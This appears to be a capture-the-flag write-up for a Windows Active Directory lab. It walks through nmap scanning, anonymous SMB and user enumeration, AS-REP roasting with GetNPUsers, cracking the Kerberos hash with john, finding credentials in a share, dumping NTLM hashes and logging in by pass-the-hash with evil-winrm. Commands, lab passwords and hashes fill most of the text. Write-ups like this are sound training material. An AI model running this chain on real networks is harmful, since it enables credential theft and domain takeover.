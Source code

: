 TTL -> 127 So, it is windows machine.

# NMAP

```bash

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-05-31 03:24:30Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49737/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5h29m50s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25670/tcp): CLEAN (Timeout)
|   Check 2 (port 32295/tcp): CLEAN (Timeout)
|   Check 3 (port 65213/udp): CLEAN (Timeout)
|   Check 4 (port 5763/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-31T03:25:30
|_  start_date: N/A
```

# Enumeration

1. SMB 

--> crackmapexec

```bash
crackmapexec smb 10.10.122.236
SMB         10.10.122.236   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
```

**Domain: vulnnet-rst.local**

--> smbclient

```bash

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
```
--> Users

```bash
Alexa
Jack
Tony
Johnny
```

Users Gathering

```bash
python3 /opt/impacket/examples/lookupsid.py anonymous@10.10.122.236 > users
```

```bash
cat users | cut -d ' ' -f 2 | cut -d '\' -f 2 > users.txt
```

```bash
for user in $(cat ~/tryhackme/Roasted/users.txt); do python3 GetNPUsers.py vulnnet-rst.local/$user -dc-ip 10.10.122.236 -no-pass;done
```

![image](https://user-images.githubusercontent.com/68326057/120137689-7c80e300-c1f2-11eb-91b9-d0b3d53506d0.png)

```bash
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:1ab406d82031df8f7b26b66f69cf5bef$8c55e42e53a865143224e902b77e13d8928d197b9663c44970e3e558808a4ee1db5e46dff8fad6b18abf5e6ceccfcfcafde206fd8512cea75ea507a4c025201a3a60b8383802e8af01e01400b52fb8f2bcbb355e2c21445cde499cc848c89a0dfbbe1c0eeaf86ea8301efb1ffa1130e4951f71bfd849952162d95b478aa55092e926eb8c51a2a94f5aeb5307275c8a2baa008a23a67d222d3aacd4eba2a5f7298c739032ee156a68fe4dad082754dfee6646cb6a7cc198830e1ce426c09ef1f4102d6249addd211ac77e75aee95cad45d41b0fdc9463b89a1b0fc2462927740651c074a6e9e3cd84bd00e1b4d26e3a2be5c93cd0445d
```

![image](https://user-images.githubusercontent.com/68326057/120137825-c79af600-c1f2-11eb-9e35-4a27a8c5d901.png)


```bash
john --wordlist=../../rockyou.txt  hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)
1g 0:00:00:05 DONE (2021-05-31 15:00) 0.1908g/s 606583p/s 606583c/s 606583C/s tjallen99..tj02091987
Use the "--s
```

Creds:-
```bash
t-skid:tj072889*
```

```bash

smbclient -U t-skid \\\\10.10.122.236\\NETLOGON 
Enter WORKGROUP\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Mar 17 04:45:49 2021
  ..                                  D        0  Wed Mar 17 04:45:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 04:48:14 2021

                8771839 blocks of size 4096. 4554883 blocks available
smb: \> 
```

![image](https://user-images.githubusercontent.com/68326057/120139149-7dffda80-c1f5-11eb-9cdd-3c1a2eed4a57.png)


Creds:-
```bash
a-whitehat:bNdKVkjv3RR9ht
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```bash
evil-winrm -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.10.86.221
```

![image](https://user-images.githubusercontent.com/68326057/120141490-36c81880-c1fa-11eb-81f9-ceb9ca03efdb.png)

![image](https://user-images.githubusercontent.com/68326057/120141579-624b0300-c1fa-11eb-82c1-932004c7f216.png)



